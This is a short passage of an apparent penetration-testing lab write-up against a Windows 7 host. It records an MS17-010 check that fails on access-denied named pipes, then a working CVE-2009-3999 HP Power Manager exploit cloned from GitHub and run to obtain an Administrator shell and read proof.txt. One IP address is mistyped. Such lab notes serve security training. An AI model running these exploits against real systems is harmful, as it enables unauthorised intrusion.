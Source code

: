 ```bash
[*] Check your shell at 192.168.103.45:4444 , can take up to 1 min to spawn your shell
```

## CVE-2017-0143
The target is vulnerable, but the exploit below did not work. The exploit requires access to a Named Pipe.

### worawit POC
This did not work.
```bash
mkdir worawit-poc
cd worawit-poc
git clone https://github.com/worawit/MS17-010
cd MS17-010
python checker.py 192.168.103.45

# output
Target OS: Windows 7 Ultimate N 7600
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_ACCESS_DENIED
```

## CVE-2009-3999
### muhammd POC
This worked!
```bash
mkdir muhammad-poc
cd muhammad-poc
git clone https://github.com/Muhammd/HP-Power-Manager.git
cd HP-Power-Manager
python hpm_exploit.py 192.169.103.45
whoami
cd C:\Users\Administrator\Desktop
type proof.txt
```

# Explore
NSTR

# Escalate
NSTR
